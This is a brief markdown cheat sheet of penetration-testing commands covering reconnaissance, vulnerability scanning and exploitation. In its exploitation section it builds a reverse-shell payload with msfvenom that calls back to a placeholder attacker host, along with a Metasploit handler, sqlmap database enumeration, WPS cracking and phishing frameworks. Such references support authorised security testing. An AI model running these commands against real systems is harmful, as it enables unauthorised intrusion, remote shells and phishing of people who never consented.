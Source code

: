 ## Security Testing Tools

### Information Gathering
```bash
# Network reconnaissance
nmap -sV -sC target_ip
masscan -p1-65535 target_ip --rate=1000

# DNS enumeration
dnsrecon -d target.com
subfinder -d target.com

# Web reconnaissance
dirb http://target.com
ffuf -u http://target.com/FUZZ -w /usr/share/wordlists/dirb/common.txt

# OSINT tools
theharvester -d target.com -l 500 -b all
sherlock username  # Username OSINT
```

### Vulnerability Assessment
```bash
# Web application scanning
nikto -h http://target.com
whatweb http://target.com

# SQL injection testing
sqlmap -u "http://target.com/page?id=1" --dbs

# Network vulnerability scanning
nessus
openvas

# Wireless security
aircrack-ng suite
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv
```

### Exploitation Framework
```bash
# Metasploit Framework
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit

# Custom payloads
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > shell

# Social engineering
setoolkit
gophish  # Phishing framework
```
